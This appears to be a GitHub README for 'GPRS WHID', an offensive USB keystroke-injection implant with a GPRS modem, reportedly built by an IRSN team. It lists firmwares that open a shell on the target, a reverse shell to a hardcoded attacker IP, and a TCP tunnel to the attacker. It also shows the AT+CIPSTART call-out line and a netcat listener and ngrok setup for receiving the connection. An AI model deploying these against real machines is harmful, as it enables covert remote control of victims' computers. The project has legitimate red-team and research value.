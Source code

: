 # GPRS WHID
This project was inspired by [the whid elite](https://github.com/whid-injector/whid-31337) and was relalised by a team of French Institute for Radiological protection and Nuclear Safety (IRSN). 

It extend the inital attack by integrating GPRS connection to it.  
This attack was designed to run on a modified version of the whid Elite with an Atmel Samd instead of an Atmel mega 32U4. 
## Hardware
TODO 
## Firmwares 
### Organisation 
This project provide various attacks each in a different folder: 
- The ``keystoke-injection`` provide a firmware that will open a shell on the target and only write on it every commands received via TCP.
- The ``testserial`` firmware can be used to check the serial connection between the whid and a computer.
- The ``reverseshell-qwerty`` will establish a complete reverse shell between the target and the attacker. It will connect to the hardcoded ip provided in the code and write a payload on the target. 
- The ``reverseshell-AZERTY`` does the same thing but with an  AZERTY target. 
- Inside ``TCPtunnel`` we can find an attack were the WHID setup a TCP connection beetween the localhost:2050 of the target and the server of the attacker. The attacker can add his payload inside th firmware and use this canala s a regular TCP connection

Except ``reverseshell-AZERTY``, every firmwares are designed to work with a qwerty target. 




### Requirement 
#### Whid side  
- Arduino SAMD boards drivers v1.6.12
- Keyboard Library
- Adafruit Fona Library 

On the .ino file, you will need to configure your APN which is specific to your sim Card: 
```CPP
  fona.setGPRSNetworkSettings(F("name"), F("user"), F("password"));
  //APN configuration (name, user, password)
```
You will also need to add your public IP address and the port your are listenning on: 
```CPP
if(!fona.sendCheckReply("AT+CIPSTART=\"TCP\",\"IPV4 Adress\",\"PORT\"",F("OK"),100))
```
#### Server side 
You need to setup a TCP server available behind a public IPV4 address. Netcat can do it easily:
```bash
netcat -lntvp <port>
```
If you don't have a public IPV4, you can use ngrok.io : 
```bash
ngrok.io => ./ngrok tcp <port>
```